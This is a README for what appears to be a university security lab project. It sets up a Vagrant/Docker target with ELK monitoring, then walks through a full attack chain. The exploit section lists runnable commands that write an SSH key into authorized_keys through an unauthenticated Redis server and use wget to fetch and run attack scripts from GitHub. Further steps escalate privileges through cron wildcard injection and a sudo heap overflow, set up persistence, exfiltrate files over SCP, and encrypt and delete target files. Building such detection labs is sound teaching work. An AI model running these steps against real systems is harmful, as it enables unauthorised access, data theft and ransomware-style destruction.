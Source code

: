 # Preparing the Setup (Pre-requisites)

## Change docker-desktop settings (increase RAM and max virtual memory required by ELK)
- Go to %UserProfile%
- Create a file .wslconfig
- Edit to include the following below:

```
# Settings apply across all Linux distros running on WSL 2
[wsl2]
kernelCommandLine = "sysctl.vm.max_map_count=262144"
# Limits VM memory to use no more than 5 GB, this can be set as whole numbers using GB or MB
memory=5GB
```
References:
- https://mrakelinggar.medium.com/set-up-configs-like-memory-limits-in-docker-for-windows-and-wsl2-80689997309c
- https://stackoverflow.com/questions/69214301/using-docker-desktop-for-windows-how-can-sysctl-parameters-be-configured-to-per
- https://gist.github.com/audionerd/d7d77d9af080a7a87d9b

# Setting up the Attack Environment

1. Bring up all the containers:
```
vagrant up --no-parallel
```
2. Start metricbeat in the ELK container. Open the terminal (docker terminal or external) and enter:
```
service metricbeat start && metricbeat setup -e
```

# Exploit Manual/Steps
1. Reverse shell into the target
```
sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

# Accepts the prompt to trust connection
yes
```
Should the connection not work (still asked for password), run the following commands again:
```
printf "keys *\nconfig set dir /home/resch/.ssh\nconfig set dbfilename 'authorized_keys'\nsave\nexit" | redis-cli -h 172.18.0.2

sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

yes
```

2. Download all attack scripts which also executes privilege escalation exploiting Crobjob
```
wget https://raw.githubusercontent.com/S692/ICT3204C1G5/main/Gp5_import_scripts_and_PE.sh && chmod +x Gp5_import_scripts_and_PE.sh

# Downloads scripts and run PE exploit
./Gp5_import_scripts_and_PE.sh

# ONLY IF YOU did not successfully become root, execute the following command:
cd /home/resch/.scripts
./Gp5_PEexploitSudo.sh
```
3. Run the attack chain scripts chaining persistence to encryption
```
cd /home/resch/.scripts
./Gp5_attack_chain.sh
```
Alternatively, it can be executed one by one:
```
cd /home/resch/.scripts
./check.sh
pip3 install -r ./requirements.txt
./Gp5_persistence1.sh
./Gp5_file_and_dir_discovery.sh
./Gp5_collectiontarget.sh
./Gp5_exfiltration_target.sh
python3 Gp5_encrypt.py fndd-stripped.txt
```
4. After exfiltration, the encrypted exfiltrated files can be decrypted on the attacker's machine
```
cd ~
./Gp5_after_exfiltration_attk.sh
cd /home/vagrant/exfiltrated/exfiltrate_backups_decrypted
ls -la
```
# Information on the project files
### Attack Scripts/Files
- Gp5_PEexploitCron.sh
  - Privilege excalation via cronjob wildcard injection
- Gp5_PEexploitSudo.sh
  - Privilege escalaion via Sudo heap overflow vulnerability
- Gp5_persistence1.sh && Gp5_persistence2.sh
  - Persistence to enable other scripts to run on startup
- Gp5_file_and_dir_discovery.sh && Gp5_file_and_dir_discovery-stripped.sh
  - List directories and files of potential interest
- Gp5_collectiontarget.sh
  - Crontab with RSYNC to automatically add files into exfiltration destination folder
- Gp5_exfiltration_attk.sh
  - Setup collection point for the files that will be exfiltrated later on
- Gp5_exfiltration_target.sh
  - Encrypt and exfiltrate files out using SCP via SSH to the target machine
- Gp5_after_exfiltration_attk.sh
  - Used to decrypt exfiltrated files
- Gp5_encrypt.py
  - Used to encrypt and delete files listed from file and directories discovery
- check.sh
  - Check for dependencies for Gp5_encrpy.py to execute successfully
- requirements.txt
  - List of dependencies needed for encryption and deletion (impact)
- Gp5_import_scripts_and_PE.sh
  - Script to import the scripts above into the target machine for execution
  - Runs Gp5_PEexploitCron.sh once all files have been downloaded
---
### Container Setup Files
- Gp5_setup.sh
  - Used to setup and download all the dependencies and files needed for the simulation attack to work on the target machine.
- Gp5_attk_setup.sh
  - Used to setup and download all the dependencies/files needed on the attacker's machine, to successfully exploit the target.
---
### Logs and Monitoring Tools (Beats) Setup files
- auditbeat.yml
  - Preconfigured auditbeat configuration file that will be replaced with the one in the target system.
- filebeatConf.py
  - Replaces keywords in the filebeats configuration file
- redis.yml
  - Redis module configuration file that exists in filebeats
- system.yml
  - System module configuration file that exisits in filebeats
- metricbeat.yml
  - Main configuration file of metricbeat that will be replaced with the one in the installed system.
- kibana.yml
  - Enable Stack Monitoring and allows configuration of other monitoring features.
